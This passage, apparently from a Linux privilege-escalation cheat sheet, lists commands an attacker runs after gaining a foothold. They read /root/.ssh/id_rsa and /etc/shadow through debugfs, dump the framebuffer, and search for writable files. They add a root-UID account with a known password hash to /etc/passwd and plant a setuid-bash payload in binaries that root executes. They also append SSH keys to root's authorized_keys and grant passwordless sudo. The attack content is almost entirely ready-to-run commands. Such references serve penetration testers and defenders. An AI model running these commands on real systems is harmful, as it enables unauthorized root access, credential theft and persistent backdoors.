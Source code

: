   ```shell
  find /etc -type f -printf '%TY-%Tm-%Td %TT %p\n' | sort -r
  find /home -type f -mmin -60
  find / -type f -mtime -2
  ```

23. Is the user a member of the Disk group and can we read the contents of the file system?
  
  ```shell
  debugfs /dev/sda
  debugfs: cat /root/.ssh/id_rsa
  debugfs: cat /etc/shadow
  ```

24. Is the user a member of the Video group and can we read the Framebuffer?
  
  ```shell
  cat /dev/fb0 > /tmp/screen.raw
  cat /sys/class/graphics/fb0/virtual_size
  ```

#### Where can we WRITE?

25. What are all the files can I write to? `find / -type f -writable -path /sys -prune -o -path /proc -prune -o -path /usr -prune -o -path /lib -prune -o -type d 2>/dev/null`

26. What folder can I write to? `find / -regextype posix-extended -regex "/(sys|srv|proc|usr|lib|var)" -prune -o -type d -writable 2>/dev/null`

| Writable Folder / file    | Priv Esc Command                                                                                |
|---------------------------|-------------------------------------------------------------------------------------------------|
| /home/*USER*/             | Create an ssh key and copy it to the .ssh/authorized_keys folder the ssh into the account       |
| /etc/passwd               | manually add a user with a password of "password" using the following syntax                    |
|                           | `user:$1$xtTrK/At$Ga7qELQGiIklZGDhc6T5J0:1000:1000:,,,:/home/user:/bin/bash`                    |
|                           | You can even escalate to the root user in some cases with the following syntax:                 |
|                           | `admin:$1$xtTrK/At$Ga7qELQGiIklZGDhc6T5J0:0:0:,,,:/root:/bin/bash`                              |
| /usr/bin/\<file executred by root> | add the following: `echo '#!/bin/bash\nchmod u+s /bin/bash' > /usr/bin/<file>` don't forget after the file is executed run `bash -p` to become part of root group! |
| copy your ssh key into auhtorised ssh keys `ssh-keygen -t rsa` | `echo "echo {Your_SSH_PubKey} >> /root/.ssh/authorized_keys" >> /usr/bin/<file>` |

- **Root SSH Key** If Root can login via SSH, then you might be able to find a method of adding a key to the /root/.ssh/authorized_keys file.
  - `cat /etc/ssh/sshd_config | grep PermitRootLogin`
- **Add SUDOers** If we can write arbitrary files to the host as Root, it is possible to add users to the SUDO-ers group like so (NOTE: you will need to logout and login again as myuser): `/etc/sudoers`

  ```shell
  root    ALL=(ALL:ALL) ALL
  %sudo   ALL=(ALL:ALL) ALL
  myuser    ALL=(ALL) NOPASSWD:ALL
  ```
